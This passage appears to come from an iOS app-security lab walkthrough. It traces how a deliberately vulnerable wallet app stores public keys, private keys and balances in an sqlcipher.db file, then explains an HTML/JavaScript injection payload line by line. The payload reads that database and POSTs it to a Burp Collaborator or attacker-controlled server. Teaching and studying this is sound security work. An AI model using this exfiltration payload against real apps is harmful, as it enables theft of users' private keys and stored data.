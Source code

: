     - Then the code appends the path component `@"sqlcipher.db"` to the end of the documents path, via the `stringByAppendingPathComponent:` method. Ending up with something like `/<something>/Documents/sqlcipher.db`
    - Then if the return value of `sub_10004af04()` is zero or `nil`, it creates an SQL table called `Wallets` with 4 columns: `publicKey`, `privateKey`, `username` and `balance`.
- You can now confirm, with high confidence, there's a database store in the `Documents` folder of the application.
- Since you know the application is rendering `HTML` (and `Javascript`) from data you can control, you can try inserting `Javascript` code that will read a file from the `Documents` folder.
- To save you time, I've written the following code:
    ```html
    <html>
       <body>
          <script>
             function loadFile() {
                var xmlhttp = new XMLHttpRequest();
                documentsPath = document.URL.split('/').slice(0, -1).join('/');
                filePath = documentsPath + '/' + 'sqlcipher.db';
                xmlhttp.onreadystatechange = function() {
                   if (xmlhttp.readyState == 4) {
                      if (xmlhttp.responseText.length > 0) {
                        var xmlhttp2 = new XMLHttpRequest();
                        xmlhttp2.open("POST","http://<some-id>.burpcollaborator.net",false);
                        xmlhttp2.send(xmlhttp.responseText);
                      }
                   }
                };
                xmlhttp.onerror = function() {
                   alert('Error! ' + filePath);
                }
                xmlhttp.open('GET', filePath, true);
                xmlhttp.send();
             }
             window.onload = loadFile;
          </script>
          <p>
             Hello World
          </p>
       </body>
    </html>
    ```
- Let me explain what's going on:
    - I created a `Javascript` function called `loadFile`. This function creates an instance of `XMLHttpRequest`, which is used to retrieve data from a URL. It was originally created to avoid reloading entire webpages to show data to the user. But it works perfect for our purpose because at its most basic level, it just retrieves data from a URL.
    - The `document.URL.split('/').slice(0, -1).join('/')` is a chain of function calls that remove the last component of a website's URL, for example if the website URL is `https://example.com/index.html`, these operations would return `https://example.com`. I'm doing this to get the root of the directory where the currently rendered webpage is.
    - After getting the root directory I append the name of the database, which you previously found is `sqlcipher.db`.
    - Then I implement the `onreadystatechange` callback function and if the request's `readyState` is `4` (based on the [documentation](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/readyState) this means the `XMLHttpRequest` instance is done processing the data in the URL).
    - If the size of the `responseText` is grater than zero then send the data to a remote server. In this case you can use [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or any server you control, like the [Mac built-in server](https://discussions.apple.com/docs/DOC-3083).
    - Then I handle errors.
    - And finally setup the `XMLHttpRequest` with the database URL and call the `send()` function to start the operation.